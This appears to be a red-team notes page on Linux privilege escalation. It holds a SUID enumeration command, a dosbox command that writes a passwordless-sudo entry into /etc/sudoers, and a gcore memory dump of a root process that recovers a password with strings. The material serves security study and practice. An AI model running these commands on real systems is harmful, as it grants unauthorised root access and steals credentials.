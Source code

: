 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# SUIDs

```bash
# Enumerate SUIDs
find / -type f -perm -u=s 2>/dev/null
```

## Dosbox

The presence of `dosbox` with the SUID bit set allows privilege escalation via **file write abuse**. According to [GTFOBins](https://gtfobins.github.io/gtfobins/dosbox/#suid), `dosbox` can be used to **modify arbitrary files when executed as** `root` through SUID.

```bash
# Add a user to the sudoers group
LFILE='/etc/sudoers'
dosbox -c 'mount c /' -c "echo x7331 ALL=(ALL) NOPASSWD: ALL >> c:$LFILE" -c exit
```

If **GUI-based access to the target** is available (e.g. via [VNC](../../../../../services/tcp/remote-access/5900-vnc.md)) we can mount the filesystem:

<figure><img src="../../../../../.gitbook/assets/nukem_vnc.png" alt=""><figcaption></figcaption></figure>

## Gcore

`gcore` is a CLI that creates a core dump of a running process without stopping it. This memory snapshot includes the process’s stack, heap, and loaded libraries, and is useful for **extracting sensitive data** or analyzing execution state during red team operations. It requires the PID of the target process and appropriate permissions. The output (`core.<PID>`) can be examined with tools like `gdb` or simply via `strings` making `gcore` valuable for stealthy, in-memory analysis during post-exploitation.

{% code overflow="wrap" %}
```bash
# Check user's permissions
$ sudo -l
User x7331 may run the following commands on kali:
    (ALL) NOPASSWD: /usr/bin/gcore
    
# List root processes
$ ps -u root -o pid,comm
490 password-store

# Dump the process
$ sudo gcore 490
​
# Inspect the file
$ strings core.490
001 Password: root:
R00tM3Plz!!!
```
{% endcode %}

